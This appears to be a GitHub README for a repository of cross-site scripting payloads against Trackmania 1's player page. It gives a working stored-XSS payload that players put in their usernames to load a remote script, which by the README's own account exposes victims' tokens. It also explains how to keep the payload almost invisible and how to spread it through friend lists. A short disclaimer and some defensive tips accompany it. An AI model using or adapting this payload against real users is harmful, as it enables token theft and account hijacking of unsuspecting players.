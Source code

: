 # 🔗 trackmania-xss-payloads
Repo of XSS payloads you can try when using Trackmania 1's playerpage
> [!WARNING]
> I am not responsible for any damage done with the knowledge from this repo. It's a proof of concept which is created only for education and research purposes. By using this code you accept that you will **NOT** use this method in malicious purposes and that [kvbaxi](https://github.com/kvbaxi) takes no responsibility for misusage of this content.
## 💻 Put this in your name to make payload
```
$l["><script/src="//payload_link_here"></script>]username
```
## ❗ How can you be safe?
> [!CAUTION]
> **THIS EXPLOIT EXPOSES YOUR TOKEN! DON'T SKIP THIS SECTION UNLESS YOU DON'T WANT TO BE SAFE!**

The easiest method of preventing yourself from being attacked by this exploit is by:
- Disabling JavaScript/Removing permission for JavaScript for this site - the site uses small amount to none of JavaScript, that means you can safely turn it off from this site while also not losing any funcitonalities of page.
- Do not add random people to friends. - Main way to get attacked by this attack is by having user with said payload in friends. As it will display friends in stats section you're very likely to be hit by this way if you won't be cautious. **Check who you're adding first!**

## ❓ How does it work?
Trackmania 1's playerpage is very insecure and old (due to the game not being updated), hence in time there were more and more security flaws found. One of them is this exact [XSS](https://wikipedia.org/wiki/Cross-Site-Scripting). It works by escaping the site's link formatting code and executing own code with newly appended `<script>` tag.  
  
One of the cons of this method is that you have limited set of characters you can use and length. You cannot use unescaped spaces as they will be escaped into HTML encoding (`" " -> &nbsp;`) so that is why I chose to use `/` instead as it converts `/` correctly as it was space.  
  
In result you get clean payload **almost** invisible to human eye. The main change you'll notice when using this payload on your name is that on stats page you'll see `">` on the beginning of your name. You can't prevent that without wasting another characters. In trackmania though, your payload is **completely invisible** on first look. Player has to hover over your name to see the suspicious payload in the place of link.  

Due to need in saving characters you cannot use the GitHub Pages link I have for my repo as it will be too long. I recommend using shortener that will make it as **short as possible**.
